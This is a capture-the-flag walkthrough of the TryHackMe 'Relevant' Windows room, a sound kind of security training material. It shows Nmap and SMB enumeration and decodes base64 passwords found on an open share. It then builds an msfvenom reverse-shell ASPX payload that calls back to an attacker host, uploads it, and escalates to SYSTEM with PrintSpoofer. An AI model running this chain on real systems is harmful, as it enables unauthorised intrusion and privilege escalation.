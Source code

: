 Relavant (Tryhackme)

<img src="https://tryhackme-images.s3.amazonaws.com/room-icons/10524728b2b462e8d164efe4e67ed087.jpeg" alt="Room Icon" width="150"/>
Penetration Testing Challenge

# Enumeration

## Nmap

```jsx
PORT      STATE SERVICE       REASON          VERSION
80/tcp    open  http          syn-ack ttl 125 Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-title: IIS Windows Server

135/tcp   open  msrpc         syn-ack ttl 125 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 125 Microsoft Windows netbios-ssn

445/tcp   open  microsoft-ds  syn-ack ttl 125 Windows Server 2016 Standard Evaluation 14393 microsoft-ds

3389/tcp  open  ms-wbt-server syn-ack ttl 125 Microsoft Terminal Services
| ssl-cert: Subject: commonName=Relevant
| Issuer: commonName=Relevant
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2025-06-04T13:17:24
| Not valid after:  2025-12-04T13:17:24
| MD5:   9ddf:ed34:3c12:2d90:122e:611d:d885:719d
| SHA-1: 5577:0fbe:8a32:a7d3:3b5c:122e:ce23:b5bb:6961:b44d
|_ssl-date: 2025-06-05T13:23:37+00:00; -1s from scanner time.

49663/tcp open  http          syn-ack ttl 125 Microsoft IIS httpd 10.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-title: IIS Windows Server
|_http-server-header: Microsoft-IIS/10.0

49666/tcp open  msrpc         syn-ack ttl 125 Microsoft Windows RPC
49667/tcp open  msrpc         syn-ack ttl 125 Microsoft Windows RPC

```

## SMB (445)

```jsx
┌──(kali㉿kali)-[~/CTF/tryhackme/Relevant]
└─$ smbclient -L \\\\10.10.102.138\\
Password for [WORKGROUP\kali]:

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        nt4wrksv        Disk      
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.10.102.138 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available

```

```jsx
┌──(kali㉿kali)-[~/CTF/tryhackme/Relevant]
└─$ smbclient \\\\10.10.102.138\\nt4wrksv
Password for [WORKGROUP\kali]:
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Sat Jul 25 17:46:04 2020
  ..                                  D        0  Sat Jul 25 17:46:04 2020
  passwords.txt                       A       98  Sat Jul 25 11:15:33 2020

```

```jsx
[User Passwords - Encoded]
Qm9iIC0gIVBAJCRXMHJEITEyMw==
QmlsbCAtIEp1dzRubmFNNG40MjA2OTY5NjkhJCQk
```

```jsx
┌──(kali㉿kali)-[~/CTF/tryhackme/Relevant]
└─$ echo "Qm9iIC0gIVBAJCRXMHJEITEyMw==" | base64 -d
Bob - !P@$$W0rD!123 
```

```jsx
┌──(kali㉿kali)-[~/CTF/tryhackme/Relevant]
└─$ echo "QmlsbCAtIEp1dzRubmFNNG40MjA2OTY5NjkhJCQk" | base64 -d
Bill - Juw4nnaM4n420696969!$$$
```

![image](https://github.com/HeinPyaeSoneShein/CTF-Write-up/blob/3f2c4eb2f420cf3dc3c24b324c83a916a4f5110d/Relevant(THM)/image%20(1).png?raw=true)




```jsx
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<ip> LPORT=53 -f aspx -o rev.aspx

```

- `.aspx` is the file extension for **ASP.NET web pages**, used on **Windows servers running IIS**
- we will upload this from smb
- We got shell and get user.txt

## ROOT

- check whoami `/priv`

```jsx
SeImpersonatePrivilege enable
```

### PrintSpoofer

```jsx
┌──(kali㉿kali)-[/opt/tools/printspoofer]
└─$ smbclient \\\\10.10.102.138\\nt4wrksv
Password for [WORKGROUP\kali]:
Try "help" to get a list of possible commands.
smb: \> put PrintSpoofer.exe
putting file PrintSpoofer.exe as \PrintSpoofer.exe (18.5 kb/s) (average 18.5 kb/s)
smb: \> 

```

```jsx
c:\inetpub\wwwroot\nt4wrksv>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is AC3C-5CB5

 Directory of c:\inetpub\wwwroot\nt4wrksv

06/05/2025  07:12 AM    <DIR>          .
06/05/2025  07:12 AM    <DIR>          ..
07/25/2020  08:15 AM                98 passwords.txt
06/05/2025  07:12 AM            27,136 PrintSpoofer.exe
06/05/2025  06:52 AM             3,424 rev.aspx
               3 File(s)         30,658 bytes
               2 Dir(s)  21,045,948,416 bytes free

c:\inetpub\wwwroot\nt4wrksv>PrintSpoofer.exe -i -c cmd
```

```jsx
C:\Windows\system32>whoami
whoami
nt authority\system

```
